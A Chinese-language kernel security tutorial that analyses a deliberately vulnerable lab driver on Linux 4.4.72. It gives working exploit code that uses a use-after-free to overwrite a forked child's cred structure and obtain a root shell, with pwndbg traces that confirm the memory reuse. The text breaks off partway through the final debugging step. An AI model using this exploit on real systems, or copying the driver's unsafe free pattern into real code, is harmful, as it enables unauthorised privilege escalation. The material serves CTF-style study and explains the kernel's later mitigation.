





# 【pwn4kernel】Kernel UAF技术分析

## 1. 测试环境

**测试版本**：Linux-4.4.72 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.4.72/01/bzImage)

笔者测试的内核版本是 `Linux (none) 4.4.72 #2 SMP Wed Dec 31 18:49:47 CST 2025 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_MEMCG`选项。开启`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_USERFAULTFD`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.4.72/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：笔者基于**CISCN2017 - babydriver** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/babydev`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2025 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on CISCN - 2017 - babydriver
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

static unsigned int major;
static struct class *babydev_class;
static struct cdev babydev_cdev;

struct babydevice_t {
	char *device_buf;
	size_t device_buf_len;
};

struct babydevice_t babydev_struct;

static int babydev_open(struct inode *inode, struct file *filp)
{
	babydev_struct.device_buf = (char *)kmalloc(0x40, GFP_KERNEL);
	babydev_struct.device_buf_len = 0x40;
	pr_info("[babydev:] Device open.\n");
	return 0;
}

static int babydev_release(struct inode *inode, struct file *filp)
{
	kfree(babydev_struct.device_buf);
	pr_info("[babydev:] Device release.\n");
	return 0;
}

static ssize_t babydev_read(struct file *filp, char __user *buf, size_t count,
			    loff_t *offset)
{
	if (!babydev_struct.device_buf) {
		return -ENOMEM;
	}

	if (babydev_struct.device_buf_len <= count) {
		return -EINVAL;
	}

	if (copy_to_user(buf, babydev_struct.device_buf, count)) {
		return -EFAULT;
	}
	return count;
}

static ssize_t babydev_write(struct file *filp, const char __user *buf,
			     size_t count, loff_t *offset)
{
	if (!babydev_struct.device_buf) {
		return -ENOMEM;
	}

	if (babydev_struct.device_buf_len <= count) {
		return -EINVAL;
	}

	if (copy_from_user(babydev_struct.device_buf, buf, count)) {
		return -EFAULT;
	}
	return count;
}

static long babydev_ioctl(struct file *file, unsigned int cmd,
			  unsigned long arg)
{
	if (cmd != 0x10001) {
		pr_err("[babydev:] defalut:arg is %ld\n", arg);
		return -EINVAL;
	}

	kfree(babydev_struct.device_buf);
	babydev_struct.device_buf = (char *)kmalloc((size_t)arg, GFP_KERNEL);
	babydev_struct.device_buf_len = arg;
	pr_info("[babydev:] alloc done\n");
	return 0;
}

struct file_operations babydev_fops = {
	.owner = THIS_MODULE,
	.open = babydev_open,
	.release = babydev_release,
	.read = babydev_read,
	.write = babydev_write,
	.unlocked_ioctl = babydev_ioctl,
};

static int __init init_babydev(void)
{
	struct device *babydev_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "babydev");
	if (error < 0) {
		pr_err("[babydev:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[babydev:] babydev major number = %d.\n", major);

	babydev_class = class_create(THIS_MODULE, "babydev_class");
	if (IS_ERR(babydev_class)) {
		pr_err("[babydev:] Error creating babydev class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(babydev_class);
	}

	cdev_init(&babydev_cdev, &babydev_fops);
	babydev_cdev.owner = THIS_MODULE;
	cdev_add(&babydev_cdev, devt, 1);
	babydev_device =
	    device_create(babydev_class, NULL, devt, NULL, "babydev");
	if (IS_ERR(babydev_device)) {
		pr_err("[babydev:] Error creating babydev device!\n");
		class_destroy(babydev_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[babydev:] babydev module loaded.\n");
	return 0;
}

static void __exit exit_babydev(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(babydev_class, MKDEV(major, 0));
	cdev_del(&babydev_cdev);
	class_destroy(babydev_class);
	pr_info("[babydev:] babydev module unloaded.\n");
}

module_init(init_babydev);
module_exit(exit_babydev);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

该驱动模块存在一个典型的释放后使用（Use-After-Free）漏洞，其根源在于一个被多个文件描述符共享的全局数据结构，其生命周期管理存在缺陷，且模块缺乏必要的同步机制，最终导致了对已释放内存的访问。

### 2-1. 核心数据结构与共享状态

驱动模块内部维护了一个关键的全局数据结构`babydev_struct`，其核心成员包括：

- `char *device_buf;`：指向一块通过`kmalloc`在内核堆上动态分配的内存区域的指针。
- `size_t device_buf_len;`：记录上述`device_buf`所指内存区域的大小。

当用户空间进程通过`open()`系统调用打开设备文件`/dev/babydev`时，对应的`babydev_open`操作会初始化这个全局的`babydev_struct`实例，包括为其`device_buf`申请初始大小的内存。**关键的设计问题在于**，无论系统内发生多少次`open`操作，所有由此产生的文件描述符（可能属于不同进程）最终都指向并操作**同一个**全局`babydev_struct`实例。这种全局共享的单实例模式，是后续产生状态混乱和竞争条件的结构基础。

### 2-2. 关键操作的行为分析

该驱动实现了`open`、`release`、`read`、`write`和`ioctl`五个基本操作，其中`release`和`ioctl`的实现是导致UAF的直接原因。

1.  **`babydev_release`操作（内存释放与状态遗留）**
    当某个文件描述符被关闭时，此函数负责执行清理工作。它会调用`kfree()`释放全局`device_buf`指针所指向的内存。然而，在释放操作之后，**该函数未能将全局的`device_buf`指针置为`NULL`，同时也未将`device_buf_len`重置为零**。这导致全局结构体中保留了一个指向已释放内存区域的“悬空指针”（Dangling Pointer），而长度字段仍记载着已无效的旧尺寸。这种不一致的状态是触发UAF的经典前提。

2.  **`babydev_ioctl`操作（内存大小的可控重构）**
    此操作提供一个命令`0x10001`，允许用户通过参数`arg`指定新缓冲区的大小。其执行流程如下：
    - a. 释放当前`device_buf`指向的内存。
    - b. 立即使用`kmalloc`，按照用户指定的`arg`大小，重新分配一块内存，并将新地址赋给`device_buf`，同时更新`device_buf_len`。
      此功能赋予了用户对`device_buf`生命周期和分配大小的**主动控制能力**，为操作堆布局提供了条件。

3.  **`babydev_read`/`babydev_write`操作（基于指针的盲目访问）**
    这两个操作是数据的读写通道，其实现完全信任并依赖全局的`device_buf`和`device_buf_len`。如果`device_buf`已成为悬空指针，对其进行读写访问将直接导致UAF，可能造成内核数据泄露、内核状态损坏或系统崩溃。

4.  **同步机制的缺失**
    所有上述操作在访问和修改全局共享的`babydev_struct`时，**均未使用任何锁（如互斥锁、自旋锁）进行保护**。这意味着多个执行流（如多个进程的线程）可以并发地对这些敏感操作进行调用，引发数据竞争，使得内核状态变得更加不确定和难以预测。

### 2-3. UAF的触发与条件演变流程

综合上述操作逻辑，触发一个可观测的UAF漏洞的典型流程如下：

1.  **产生悬空指针**：进程A打开设备，获得文件描述符fd_A，初始化了全局的`device_buf`。随后，进程B也打开该设备，获得fd_B。此时，fd_A和fd_B共享同一个有效的`device_buf`。当进程B调用`close(fd_B)`时，`babydev_release`被调用，释放了`device_buf`指向的公共内存，但全局指针未被清空。此时，进程A所持有的fd_A对应的操作接口中，`device_buf`已然变成一个悬空指针，而进程A对此并不知情。

2.  **访问悬空指针**：在步骤1的状态下，进程A通过fd_A调用`babydev_read`或`babydev_write`。驱动代码将无条件地使用这个悬空指针进行内存访问，从而触发UAF。此时的行为完全取决于该块内存被释放后的状态：若未被重用，访问可能暂时“正常”；若已被内核其他部分回收并存放了其他数据，则可能导致内核崩溃或读取到预期之外的数据。

3.  **利用`ioctl`进行堆布局影响**：`babydev_ioctl`的存在极大地丰富了UAF的触发条件和潜在影响。在产生悬空指针后，操作者可进行以下动作以影响内核堆的状态：
    - a. 通过仍然持有有效描述符的进程（如进程A）调用`ioctl(0x10001, size)`。该操作首先释放当前的`device_buf`（即悬空指针所指的旧地址，此操作为一次“释放后释放”），随后立即申请一块用户指定`size`的新内存。这使得操作者可以**主动控制**接下来被分配的`device_buf`内存块的大小。
    - b. 操作者随后可以利用其他内核接口（如系统调用`socket`、`msg_msg`等）触发内核分配特定大小的对象。通过精心选择`size`参数，使其与某个目标内核数据结构的大小一致，可以尝试让新分配的内核对象恰好占据先前被释放的`device_buf`内存区域。
    - c. 一旦上述“占位”成功，原先指向该内存区域的悬空指针（在进程A的上下文看来）就转变为指向一个活跃的内核对象。此时，再通过进程A的`babydev_write`向`device_buf`写入数据，实质上是在**修改这个无辜的内核对象的内容**；而通过`babydev_read`读取，则可能**泄露该对象的数据**。这实现了对特定内核结构体内容的非授权读写。

### 2-4. 总结

该UAF漏洞的本质是多方面设计缺陷共同作用的结果：**全局共享状态的粗粒度管理**、**资源释放后未进行状态清空**的生命周期管理漏洞、**完全缺失的并发访问控制**，以及**一个允许用户干预内核堆分配大小的高权限接口**。这些缺陷叠加，使得多个执行流能够通过竞争，使系统进入一个持有并使用悬空指针的不稳定状态，进而可能引发内存损坏、信息泄露或权限提升等严重后果。

## 3. 内核内存分配原理

Linux内核采用层次化的内存管理架构，从物理页框管理到细粒度对象分配，形成了完整的分配链。此体系结构旨在平衡性能、内存利用率和系统复杂性，为不同大小的内存请求提供最优的分配策略。原理完整分析参考[内核内存分配原理](https://binracer.github.io/2026/01/31/pwn4kernel-%E5%86%85%E6%A0%B8%E5%86%85%E5%AD%98%E5%88%86%E9%85%8D%E5%8E%9F%E7%90%86/)

## 4. 实战演练

exploit核心代码如下：

```c
int main() {
  // Open the device twice
  int fd1 = open("/dev/babydev", O_RDWR);
  int fd2 = open("/dev/babydev", O_RDWR);

  // Modify babydev_struct.device_buf_len to sizeof(struct cred)
  ioctl(fd1, 0x10001, 0xa8);

  // free fd1
  close(fd1);

  // The cred space of the newly launched process will overlap with the recently
  // released babydev_struct
  int pid = fork();
  if (pid < 0) {
    log.error("fork error!");
    exit(0);
  } else if (pid == 0) {
    // By changing fd2, modify the UID of the new process's credit, and set the
    // GID value to 0
    char zeros[0x24] = {0};
    write(fd2, zeros, 0x24);
    get_root_shell();
  } else {
    wait(NULL);
    close(fd2);
  }
  return 0;
}
```

### 4-1. 利用步骤与技术原理

本利用过程是一个经典的堆内存重用（Use-After-Free，UAF）漏洞利用实例，利用了Linux内核v4.4.72中SLUB分配器的特定行为（缓存合并）和`cred`结构体的固定分配路径。

其核心步骤和技术原理如下：

1.  **创建共享的全局内存引用**
    - **操作**：连续两次调用`open`打开`/dev/babydev`设备，获得`fd1`和`fd2`。
    - **原理**：该字符设备驱动在打开时，会在内核空间分配一个全局或静态的管理结构体（如`babydev_struct`）。多次打开可能指向同一个全局实例，通过共享的`device_buf`指针引用同一块内核堆内存。这使得`fd1`和`fd2`可以操作同一块内核内存区域。

2.  **精确控制目标内存大小**
    - **操作**：通过`fd1`调用驱动的`ioctl`命令（`0x10001`），将参数设置为`0xa8`。
    - **原理**：该`ioctl`命令通常用于设置驱动内部缓冲区的长度。这里将其设置为`0xa8`字节，与目标系统内核版本（v4.4.72）中`cred`结构体的大小精确匹配。此操作通常会导致驱动释放原有的缓冲区，并重新分配一个指定大小的新缓冲区（`kmalloc(0xa8)`）。这块新缓冲区将成为后续利用的目标。

3.  **精心制造悬空指针**
    - **操作**：关闭`fd1`。
    - **原理**：关闭`fd1`会触发驱动释放其在步骤2中分配的`0xa8`字节缓冲区。然而，由于`fd2`仍然持有对该缓冲区的引用（通过共享的全局指针），`fd2`便保存了一个指向已释放内存区域的“悬空指针”。此时，该内存块已被归还给SLUB分配器，处于“空闲”状态，可被后续的内核分配请求重新使用。

4.  **触发目标对象分配——内核`cred`结构体**
    - **操作**：调用`fork()`系统调用创建子进程。
    - **原理**：`fork()`创建新进程时，内核需要为新进程复制一份证书凭证，即分配并初始化一个`cred`结构体。这个分配是通过`kmem_cache_alloc(cred_jar, GFP_KERNEL)`在专用的`cred_jar` SLUB缓存中完成的。
    - **关键漏洞点**：在该内核版本（v4.4.72）中，`cred_jar`缓存在初始化时没有设置`SLAB_ACCOUNT`标志。这导致该专用缓存可以与通用的`kmalloc-192`缓存合并。因此，步骤3中通过`kmalloc(0xa8)`释放、属于`kmalloc-192`缓存的内存块，可以被`cred_jar`缓存的分配请求所复用。**需要说明的是，此利用的成功不依赖于特定分配器（SLAB或SLUB）的内部实现细节（如LIFO策略），而是依赖于`cred_jar`与通用`kmalloc`缓存可合并这一核心前提。** 无论分配器是SLAB还是SLUB，只要缓存合并，且能精确控制一个相同大小对象的释放与重新分配，即可实现利用。此时，`fd2`的悬空引用实际上指向了子进程的`cred`结构体。

5.  **篡改关键数据提权**
    - **操作**：在子进程上下文中，通过`fd2`向设备写入`0x24`字节的零。
    - **原理**：`write`操作通过`fd2`的悬空指针，直接修改了其指向的内存内容。由于这块内存现在是子进程的`cred`结构体，写入`0x24`字节的零，会覆盖结构体前部的多个ID字段，包括`uid`、`gid`、`euid`、`egid`等，将它们全部设置为0（即root用户的ID）。完成此操作后，子进程便拥有了root权限，随后执行的`get_root_shell()`即可获得一个root shell。

**总结与安全演进**

整个利用链巧妙地利用了三个关键点：

- 驱动设计的缺陷（全局共享缓冲区）。
- 内核对象生命周期的精确控制（UAF）。
- **特定内核版本中SLUB缓存的可合并特性**（`cred_jar`未设置`SLAB_ACCOUNT`）。在新版本内核中，`cred_init()`函数初始化`cred_jar`时会加入`SLAB_ACCOUNT`标志，将其与通用`kmalloc`缓存隔离，从而堵死了此类利用路径。这体现了内核安全机制的持续演进。

### 4-2. 从`fork()`到`cred`完整调用链

当用户态调用`fork()`时，内核为新进程分配`cred`结构体的完整路径如下图所示。该图展示了从系统调用入口到SLAB分配器的核心流程，用颜色标注了关键阶段：



**流程图颜色说明**：

- **蓝色**：系统调用入口和用户态/内核态转换阶段
- **绿色**：进程复制和cred结构体初始化阶段
- **橙色**：SLUB分配器内部操作阶段

### 4-3. 内核代码调用链详细分析

以下基于Linux内核v4.4.72版本，分析从`fork()`到`cred`分配的完整代码路径。

#### 4-3-1. 第一阶段：系统调用入口

用户态调用`fork()`触发系统调用，进入内核处理流程：

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1819
#ifdef __ARCH_WANT_SYS_FORK
SYSCALL_DEFINE0(fork)
{
#ifdef CONFIG_MMU
    return _do_fork(SIGCHLD, 0, 0, NULL, NULL, 0);
#else
    /* can not support in nommu mode */
    return -EINVAL;
#endif
}
#endif
```

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1724
long _do_fork(unsigned long clone_flags,
              unsigned long stack_start,
              unsigned long stack_size,
              int __user *parent_tidptr,
              int __user *child_tidptr,
              unsigned long tls)
{
    struct task_struct *p;
    int trace = 0;
    long nr;

    p = copy_process(clone_flags, stack_start, stack_size,
                     child_tidptr, NULL, trace, tls, NUMA_NO_NODE);

    // 唤醒新进程等后续处理
    return nr;
}
```

#### 4-3-2. 第二阶段：进程复制

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/fork.c#L1268
static struct task_struct *copy_process(unsigned long clone_flags,
                                        unsigned long stack_start,
                                        unsigned long stack_size,
                                        int __user *child_tidptr,
                                        struct pid *pid,
                                        int trace,
                                        unsigned long tls,
                                        int node)
{
    int retval;
    struct task_struct *p;
    void *cgrp_ss_priv[CGROUP_CANFORK_COUNT] = {};

    // 复制task_struct结构
    p = dup_task_struct(current, node);
    if (!p)
        goto fork_out;

    // 复制cred结构体
    retval = copy_creds(p, clone_flags);
    if (retval < 0)
        goto bad_fork_free;

    // 其他资源复制
    return p;
}
```

#### 4-3-3. 第三阶段：cred结构体分配

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L322
int copy_creds(struct task_struct *p, unsigned long clone_flags)
{
    struct cred *new;
    int ret;

    // 如果是线程创建且无特定键环，则共享父进程的cred
    if (clone_flags & CLONE_THREAD) {
        p->real_cred = get_cred(p->cred);
        get_cred(p->cred);
        return 0;
    }

    // 准备新的cred结构体
    new = prepare_creds();
    if (!new)
        return -ENOMEM;

    p->cred = p->real_cred = get_cred(new);
    return 0;
}
```

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L243
struct cred *prepare_creds(void)
{
    struct task_struct *task = current;
    const struct cred *old;
    struct cred *new;

    // 从cred_jar缓存分配内存
    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    // 复制当前进程的cred内容
    old = task->cred;
    memcpy(new, old, sizeof(struct cred));

    // 初始化引用计数等字段
    atomic_set(&new->usage, 1);

    return new;
}
```

#### 4-3-4. 第四阶段：SLUB分配内存

`prepare_creds()`函数中的`kmem_cache_alloc(cred_jar, GFP_KERNEL)`调用SLUB分配器，从专用的`cred_jar`缓存中分配内存。`cred_jar`缓存是在系统启动时由`cred_init()`函数初始化的：

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/kernel/cred.c#L569
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
                                 SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
}
```

**关键点分析**：在v4.4.72内核中，`cred_jar`缓存在创建时**未设置`SLAB_ACCOUNT`标志**。`SLAB_ACCOUNT`标志用于将缓存标记为与内核安全审计（或内存控制组记账）相关，其一个重要作用是防止该专用缓存与通用的`kmalloc`缓存合并。由于缺少此标志，`cred_jar`缓存可以与相同大小的通用`kmalloc-192`缓存合并，这正是本漏洞利用能够成功的前提。在新版本内核中，此初始化已加入`SLAB_ACCOUNT`标志，从而隔离了`cred`对象的分配，使此类利用失效。

### 4-4. 内存状态变化与SLUB分配行为

下图展示了在演示代码执行过程中，内存状态的变化和SLUB分配器的行为，并特别体现了`cred_jar`与`kmalloc-192`缓存合并的关键点：



### 4-5. cred结构体内存布局分析

```c
// https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/cred.h#L118
struct cred {
    atomic_t    usage;
    kuid_t      uid;        /* 真实用户ID */
    kgid_t      gid;        /* 真实组ID */
    kuid_t      suid;       /* 保存的用户ID */
    kgid_t      sgid;       /* 保存的组ID */
    kuid_t      euid;       /* 有效用户ID */
    kgid_t      egid;       /* 有效组ID */
    kuid_t      fsuid;      /* 文件系统用户ID */
    kgid_t      fsgid;      /* 文件系统组ID */
    // ... 其他权限和能力字段
};
```

在x86_64架构的v4.4.72内核中，`cred`结构体的关键权限字段偏移如下：

- `uid` (0x4)
- `gid` (0x8)
- `suid` (0xc)
- `sgid` (0x10)
- `euid` (0x14)
- `egid` (0x18)
- `fsuid` (0x1c)
- `fsgid` (0x20)

向`cred`结构体写入0x24字节的零，会将前9个权限字段（每个4字节）清零，从而将相关权限标识置零。

### 4-6. SLUB分配器与安全加固分析

Linux内核v4.4.72默认使用SLUB分配器（SLAB Allocator的下一代版本），其关键行为特征包括：

1.  **专用缓存与合并行为**：`cred`结构体通过专用的`cred_jar`缓存分配。**在v4.4.72中，由于`cred_init()`未设置`SLAB_ACCOUNT`标志，`cred_jar`缓存可以与通用的`kmalloc-192`缓存合并**，这是本漏洞利用成功的核心。缓存合并意味着从`kmalloc()`和`kmem_cache_alloc(cred_jar)`分配的同大小对象可能来自同一内存池。
2.  **缓存与空闲链表**：SLUB为每个CPU维护一个“每CPU缓存”（`kmem_cache_cpu`），以及一个共享的“部分空闲链表”（`kmem_cache_node`）。对象分配优先从快速的每CPU缓存获取，这增加了分配行为的局部性，但并未改变缓存合并带来的根本风险。
3.  **安全演进**：在新版本内核中，`cred_init()`函数已加入`SLAB_ACCOUNT`标志。该标志阻止了专用缓存与通用缓存的合并，确保了`cred`等安全敏感对象在独立的内存区域分配，有效防御了此类通过通用堆内存操纵来篡改内核敏感对象。这是针对SLUB（以及SLAB）分配器的重要加固措施。

### 4-7. 内核调试与执行流追踪验证

为了从实践层面验证前述利用链的理论分析，并直观观察内存状态的关键变化，可以在漏洞利用程序执行过程中，对内核驱动及关键函数进行动态调试与追踪。以下调试过程清晰地展现了从释放目标内存、到`cred`结构体重用、最终完成权限篡改的完整路径。

#### 4-7-1. 阶段一：制造悬空指针，确认内存释放

首先，在驱动释放内存的函数`babydev_release`处设置断点。当执行`close(fd1);`时，触发此断点。

```bash
In file: /home/bogon/workSpaces/pwn4kernel/src/UAFwithCred/drivers/binary.c:42
   40 static int babydev_release(struct inode *inode, struct file *filp)
   41 {
 ► 42         kfree(babydev_struct.device_buf);
   43         pr_info("[babydev:] Device release.\n");
   44         return 0;
   45 }
```

在执行`kfree`之前，查看驱动全局结构体`babydev_struct`的状态：

```bash
pwndbg> p/x babydev_struct
$1 = {
  device_buf = 0xffff880006a79540,
  device_buf_len = 0xa8
}
```

此时，驱动缓冲区指针`device_buf`指向地址`0xffff880006a79540`，其长度恰好为`0xa8`字节，与我们通过`ioctl`设置的大小一致。

通过`slab contains`命令查询该地址所属的SLUB缓存：

```bash
pwndbg> slab contains 0xffff880006a79540
 0xffff880006a79540 @ kmalloc-192
 slab: 0xffff880006a79000 [active, cpu 0]
 status: in-use
```

**调试分析**：验证了目标内存块（`0xffff880006a79540`）确实位于`kmalloc-192`缓存中，且状态为“正在使用”（`in-use`）。这完全符合4-1步骤2（精确控制大小）的预期。

执行`kfree`语句后，再次查询该内存块状态：

```bash
pwndbg> slab contains 0xffff880006a79540
 0xffff880006a79540 @ kmalloc-192
 slab: 0xffff880006a79000 [active, cpu 0]
 status: free
```

**调试分析**：关键内存块的状态已变为“空闲”（`free`）。这意味着`fd1`对应的缓冲区已被释放回`kmalloc-192`缓存池。然而，由于`fd2`仍然通过`babydev_struct.device_buf`这个全局指针持有该地址，一个“悬空指针”已成功制造。这对应了4-1步骤3（制造悬空引用）的完成。

#### 4-7-2. 阶段二：触发`cred`分配，验证内存重用

接下来，在`fork()`系统调用路径上的关键函数`prepare_creds`中设置断点，该函数负责为子进程分配新的`cred`结构体。当执行到`kmem_cache_alloc`调用时暂停。

```bash
In file: /home/bogon/workSpaces/linux-stable/kernel/cred.c:251
   249         validate_process_creds();
   250
 ► 251         new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
```

在分配执行前，查询即将用于接收`cred`指针的变量`new`的地址（此时尚未赋值，可能为随机值）。执行`kmem_cache_alloc`后，再次检查：

```bash
pwndbg> p/x new
$3 = 0xffff880006a79540
```

**调试分析**：这是一个决定性的验证。函数`kmem_cache_alloc`从`cred_jar`缓存返回的地址是`0xffff880006a79540`，**与阶段一中刚刚释放的驱动缓冲区地址完全相同**。这直接证明了：

1.  `fork()`确实触发了`cred`结构体的分配（4-1步骤4）。
2.  **由于`cred_jar`缓存与`kmalloc-192`缓存合并**，SLUB分配器将刚刚释放的、属于`kmalloc-192`的内存块分配给了`cred_jar`的请求。
3.  利用链成功实现了堆内存布局，子进程的`cred`结构体恰好落在了可通过`fd2`写入的悬空指针所指向的内存区域。

#### 4-7-3. 阶段三：通过悬空引用篡改`cred`，验证提权

最后，在驱动写函数`babydev_write`中设置断点，该函数会通过`copy_from_user`将用户数据复制到内核缓冲区。当子进程执行`write(fd2, zeros, 0x24);`时触发。

```bash
In file: /home/bogon/workSpaces/pwn4kernel/src/UAFwithCred/drivers/binary.c:75
   74
 ► 75         if (copy_from_user(babydev_struct.device_buf, buf, count)) {
```

在执行`copy_from_user`之前，查看驱动结构体：

```bash
pwndbg> p/x babydev_struct
$5 = {
  device_buf = 0xffff880006a79540,
  device_buf_len = 0xa8
}
```

**调试分析**：`device_buf`指针依然指向`0xffff880006a79540`。此刻，从驱动的视角看，它是在向自己的“缓冲区”写入数据；而从内核的视角看，这块内存的实际身份是**子进程的`cred`结构体**。

执行写入操作后，通过自定义调试命令`ktask`（或类似命令）检查进程的凭据状态：

```bash
pwndbg> ktask exploit
 [pid 951]task @ 0xffff880007202e00: exploit          cpu #- (uid: 1000, gid: 1000, has user pages)
 [pid 952]task @ 0xffff880007200b80: exploit          cpu #- (uid: 0, gid: 0, has user pages)
```

**调试分析**：输出显示了两个名为`exploit`的进程。

- 进程PID 951（父进程）的`uid`和`gid`均为1000（普通用户）。
